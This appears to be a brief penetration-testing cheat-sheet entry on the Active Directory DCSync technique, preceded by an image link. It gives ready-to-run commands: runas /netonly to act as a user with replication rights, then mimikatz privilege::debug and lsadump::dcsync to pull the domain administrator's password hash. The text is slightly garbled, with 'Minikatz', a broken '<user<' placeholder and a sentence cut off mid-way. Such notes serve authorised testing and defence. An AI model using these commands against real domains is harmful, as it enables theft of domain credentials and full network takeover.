 In Active Directory, **DCSync** is a technique used by attackers to impersonate a domain controller and request password hashes from other domain controllers using the **DSGetNCChanges** function. It

Minikatz:

Run as user who has DCSync rights:

```bash
runas /netonly /user:<domain>\<user< powershell
```

Extract Administrators hash:

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:<domain> /user:<domain>\administrator
```


